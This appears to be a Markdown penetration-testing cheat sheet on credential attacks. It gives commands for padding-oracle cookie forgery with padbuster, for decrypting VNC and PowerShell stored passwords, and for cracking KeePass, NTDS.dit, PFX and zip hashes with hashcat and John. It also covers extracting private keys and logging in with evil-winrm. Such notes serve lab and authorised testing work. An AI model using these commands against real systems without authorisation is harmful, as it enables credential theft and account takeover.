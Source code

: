 # Adding salt (as a normal string) to a password file
This is applicable when the password lacks visible salt because it was concatenated during encryption. Consequently, the salt needs to be added to the dictionary line-by-line.
```bash
sed -e 's/^/prefix/' <file> > <file.new>
```



# Cewl
Cewl can be used on a webpage, and if one suspects that a password is hidden somewhere in the website.       
[Documentation](https://www.kali.org/tools/cewl/)

## Usage
```bash
cewl -w <wordlist> -d 10 -m 1 <url>
```


# Padding oracle attack
When an application decrypts encrypted data, it will first decrypt the data; then it will remove the padding. During the clean-up of the padding, if an invalid padding triggers a detectable behaviour, you have a padding oracle vulnerability. The detectable behaviour can be an error, a lack of results, or a slower response.
```bash
# Decrypt
padbuster <url> "<cookie_value>" 8 -encoding 0 -cookies "<cookie_name>=<cookie_value>"

# Encrypt new cookie
padbuster <url> "<cookie_value>" 8 -encoding 0 -cookies "<cookie_name>=<cookie_value>" -plaintext "<new_cookie_name>=<new_cookie_value>"
```



# Powershell credentials file
The command below can be used to decrypt a given credentials file.     
```powershell
# NOTE: one has to be logged in as the user
(Import-CliXml -Path user.txt).GetNetworkCredential().Password
```




# VNC passwords
## Bash
VNC stores passwords as a hex string in `.vnc` files using a default encryption key
```bash
# Decrypt password
echo -n <string> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

## vncpasswd.py
[Documentation](https://github.com/trinitronx/vncpasswd.py)
```bash
python vncpasswd.py -d -f <hashfile>
```   
## References
- [https://github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts)
- [https://github.com/billchaison/VNCDecrypt](https://github.com/billchaison/VNCDecrypt)
- [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py)



# KeePass (jenkins) & kdbx files
1.  Use `keepass2john` to make the file into a hash.
2. Crack the hash file (from step 1) with `hashcat``, this will give you the **master password**    
    ```bash
    hashcat CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
    ```
3. Use `kpcli` to extract passwords: 
    ```bash
    kpcli --kdb <file>.kdbx
    ```
4. Run: `find .` in `kpcli` to list all of the passwords
5. `show -f [num]` will print a password based on the input

# .dit and .bin files
**.dit** files contain password hashes     
**.bin** files contain information about the system

## Dump hashes
*Assuming these files are on your local machine already.*
- Dump hashes  
    ```bash
    secretsdump.py -ntds <.dit file> -system <.bin file> LOCAL
    ```
- Crack the hashes
    ```bash
    # MD5
    hashcat -m 0 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    
    # NTLM
    hashcat -m 1000 -a 0 hashfile /usr/share/wordlists/rockyou.txt
    ```

## Troubleshooting
### If hashcat cannot crack the hashes
Try [crackstation](https://crackstation.net/), the hash might already be in their system.



# PFX files
Password protected file certificate commonly used for code signing your application. It derives from the PKCS 12 archive file format certificate, and it stores multiple cryptographic objects within a single file     

## Extract private key and certificate
```bash
# PRIVATE KEY
openssl pkcs12 -in <pfx_file> -nocerts -out private.key

# CERTIFICATE
openssl pkcs12 -in <pfx_file> -clcerts -nokeys -out certificate.crt
```


### Crack the hash
`pfx2john` can turn these files into a hash which can be brute-forced to extract password.
```bash
# Make hash file
pfx2john.py <file> > <hashfile>

# Dictionary attack
john -w=/usr/share/wordlists/rockyou.txt <hashfile>

# Brute force
john  <hashfile>

# One liners
pfx2john <file>  |john /dev/stdin
pfx2john <file>  |john -w=/usr/share/wordlists/rockyou.txt /dev/stdin
```

## Login with evil-winrm
```bash
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```


# zip2john - Get hash from zip
If a `.zip` file requires a password.
```bash
zip2john <zip_file> 2>/dev/null | tee myhash
```

## Breaking the hash
```bash
john myhash --wordlist=<wordlist> --format=PKZIP
```